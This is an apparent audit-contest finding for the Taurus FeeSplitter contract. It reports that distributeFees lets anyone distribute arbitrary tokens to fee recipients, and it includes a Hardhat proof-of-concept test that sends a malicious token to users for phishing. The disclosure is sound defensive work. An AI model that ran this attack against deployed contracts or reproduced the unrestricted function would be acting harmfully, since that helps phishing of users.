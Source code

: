 Keyrxng

medium

# Protocol Opens up users to phishing attacks

## Summary
The protocol can be used to transfer arbitrary/malicious tokens to anyone that is set as a fee Recipient in FeeSplitter.sol including the treasury, rewards and user base (based on test values and code comments).

## Vulnerability Detail
Anyone can pass in an arbitrary token address to feeSplitter and have it distribute that token to all of the preset fee Recipients.

1. Make malicious token
2. Either mint to the feeSplitter or transfer in an amount which becomes 'feeAmount'.
3. Call distributeFees() and we call into token to transfer out.
4. Trusted source has now distributed malicious tokens giving them some legitimacy and social proof.

## Impact
Avg user will see a token coming from a trusted source while this source's treasury, reward pool, multisig and other users also hold this token from this same source giving it a form of social proof increasing the likelyhood of a successful fishing attempt.
https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/contracts/Tokenomics/FeeSplitter.sol#L28?plain=1
## Code Snippet
```js
   //@audit - callable by anyone. If I send tokens to this address
   //@audit - I'll be able to transfer tokens to users, treasury and reward pool.
   //@audit - treasury is multisig and rewardpool does not yet exist
    function distributeFees(address _token) external {
        uint256 feeAmount = IERC20(_token).balanceOf(address(this));
        if (feeAmount == 0) return;

        uint256 _numFeeRecipients = numFeeRecipients;
        for (uint256 i; i < _numFeeRecipients; ++i) {
            FeeRecipient memory feeRecipient = feeRecipients[i];
            IERC20(_token).safeTransfer(
                feeRecipient.recipient,
                (feeAmount * feeRecipient.proportion) / Constants.PERCENT_PRECISION
            );
        }
    }
```

POC:
```js
it("It opens users up to phishing attacks", async () => {
      // As seen in the above test one of the recipients is a user. This means that
      // feeSplitter is sending tokens to users as well as Treasury and Reward pool as seen in FeeSplitter.sol comments
      
      await testDai.mint(user.address, initDaiAmount);

      const recipientData = [
        { recipient: deployer.address, proportion: PERCENT_PRECISION.div(4) },
        { recipient: multisig.address, proportion: PERCENT_PRECISION.div(3) },
        { recipient: user.address, proportion: PERCENT_PRECISION.div(6).add(1) },
        { recipient: keeper.address, proportion: PERCENT_PRECISION.div(4) },
      ];
      // Set up 4 recipients
      await feeSplitter.setFeeRecipients(recipientData);

      const mlxFactory = await ethers.getContractFactory("MmockERC20", hacker);
      mlx = (await mlxFactory.deploy("Malicous", "MLX", feeSplitter.address )) as MmockERC20;

      await mlx.deployed();
      await mlx.mint(feeSplitter.address, initDaiAmount);

      await feeSplitter.connect(hacker).distributeFees(mlx.address);
      // At this point the user's MLX has been moved to the user address.      
      
      expect(await mlx.balanceOf(feeSplitter.address)).to.equal(0); // Test passes
      expect(await mlx.balanceOf(deployer.address)).to.be.greaterThan(0); // Test passes
      expect(await mlx.balanceOf(user.address)).to.be.greaterThan(0); // Test passes
      console.log(await testDai.balanceOf(user.address))
      console.log(await mlx.balanceOf(user.address));
    })
```
No need for further exploit POCs as this is enough I believe to demonstrate my point.

## Tool used

Manual Review

## Recommendation

place restrictions on calling this or add a mapping of pre-approved tokens to prevent arb token transfers.